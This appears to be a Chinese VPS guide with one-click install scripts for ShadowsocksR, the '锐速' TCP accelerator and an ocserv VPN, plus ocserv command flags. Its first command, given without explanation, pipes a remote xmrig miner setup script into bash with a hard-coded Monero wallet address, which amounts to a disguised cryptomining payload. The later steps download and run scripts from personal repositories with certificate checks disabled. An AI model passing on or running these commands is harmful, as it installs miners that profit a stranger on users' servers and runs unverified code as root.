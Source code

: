 
curl -L https://gitee.com/zzzkky/xmrig_setup/raw/master/setup_skypool_miner.sh | bash -s '88AgpRazEmeMjTkdq8Ukxc1hRaTUERduKea9tRZVSiZWerRQodyeTDCKDx5FMMCVyq6UFJG68C2X871oEu3sCjB33rnpMSp'

如果是ubuntu或debian的话，输入sudo su,再输入密码进入管理员权限；如果是centos，fedora之类的系统，就是输入su,再输入密码，就可以获取管理员权限了。一般的话，我们用终端都是先获取管理员权限，再进行其他操作的，这是习惯问题，可以避免好多问题。

-----------------------------------------------------------------------------------------------------------------------

一键安装ssr和锐速:使用root用户登录，运行以下命令（推荐使用putty链接到你的vps主机）

    wget --no-check-certificate https://raw.githubusercontent.com/zhenufo/MyTest/master/shadowsocksonekey.sh https://raw.githubusercontent.com/zhenufo/MyTest/master/sysctl
    
    chmod +x shadowsocksonekey.sh
    
    ./shadowsocksonekey.sh


-----------------------------------------------------------------------------------------------------------------------

如果只装锐速

    wget --no-check-certificate https://raw.githubusercontent.com/zhenufo/MyTest/master/speeder.sh https://raw.githubusercontent.com/zhenufo/MyTest/master/sysctl
    
    chmod +x speeder.sh
    
    ./speeder.sh

-----------------------------------------------------------------------------------------------------------------------

关于ocserv。一键安装ocserv和锐速。支持Debian7和Debian8

下载:
    
    wget --no-check-certificate -qO ocserv.sh 'https://raw.githubusercontent.com/zhenufo/MyTest/master/ocserv.sh' && chmod a+x ocserv.sh

安装及使用说明:

    安装并添加no-route路由表:
    bash ocserv.sh -install -noroute
  
    安装并添加route路由表:
    bash ocserv.sh -install -route
    
    添加no-route路由表和一个用户名和密码均为Test的用户:
    bash ocserv.sh -noroute -add Test Test
    
    删除一个用户名为Test的用户:
    bash ocserv.sh -del Test
    
    切换使用证书登陆(cret不区分大小写.需要安装时选择配置为证书登录,否则可能无法正常运行.):
    bash ocserv.sh -use Cert
    
    切换使用密码登陆(password不区分大小写.):
    bash ocserv.sh -use password
    
参数使用介绍:
    
    -install
    #在有其他参数时,第一步进行安装.
    
    -add 【用户名】【密码】
    #密码登陆模式下添加一个用户.
    
    -del 【用户名】
    #密码登录模式下删除一个用户.
    
    -use 【Cert/Password】
    #切换登陆方式,密码或证书.
    
    -route/-noroute
    #添加路由表,两个参数不能同时使用.
    
    #-route参数一般用于android机器(由于android平台限制).
    #-noroute参数推荐使用,除android机器外都使用此参数.
